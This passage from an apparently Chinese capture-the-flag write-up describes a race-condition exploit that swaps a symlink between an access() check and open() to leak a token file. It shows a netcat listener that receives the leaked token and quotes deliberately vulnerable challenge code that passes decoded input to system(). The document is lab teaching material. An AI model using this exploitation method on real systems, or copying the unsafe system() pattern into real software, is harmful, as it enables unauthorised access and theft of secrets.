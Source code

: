 其中`&`符合是为了后台运行，就可以非阻塞的执行下一条语句；插入一个for循环是为了延后链接文件的目标文件更改时间，使得它能够在`access()`检查完成后并在`open()`执行前执行（当然这是不确定能100%成功的，可以调节循环次数）。

随后我们可以在另外一个终端里监听18211端口：

	nc -lk 18211

可以收到token文件内容：

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

---

## Level11

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}
```